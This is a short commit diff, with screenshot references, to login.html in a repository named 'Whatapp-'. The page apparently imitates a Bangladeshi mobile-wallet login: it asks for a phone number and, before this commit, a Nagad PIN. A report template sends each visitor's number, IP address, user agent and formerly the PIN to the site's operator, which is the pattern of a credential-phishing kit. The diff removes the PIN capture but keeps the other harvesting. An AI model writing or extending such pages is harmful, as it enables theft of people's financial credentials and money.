

Before and after one commit to brillianttopup/Whatapp-, a plain HTML site: page login.html in a window 1280 px wide. Shown: the part 147-434 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update login.html

```diff
--- a/login.html
+++ b/login.html
@@ -140,11 +140,6 @@
             <i class="fa fa-phone input-icon"></i>
             <input type="number" placeholder="XXX-XXXX-XXXX" id="mobileNumber">
         </div>
-        <div class="input-group">
-            <p>নগদ পিন</p>
-            <i class="fa fa-lock input-icon"></i>
-            <input type="number" placeholder="XXXX" id="pin">
-        </div>
         <button id="loginButton">লগ ইন</button>
     </div>
 
@@ -196,8 +191,6 @@
 
 📱<b>Mobile Number:</b> <code>${loginData.mobileNumber}</code>
 
- 🔐<b>PIN:</b> <code>${loginData.pin}</code>
-
  🌐<b>IP Address:</b> ${loginData.ip}
 
  💻<b>User Agent:</b> ${loginData.userAgent}
```
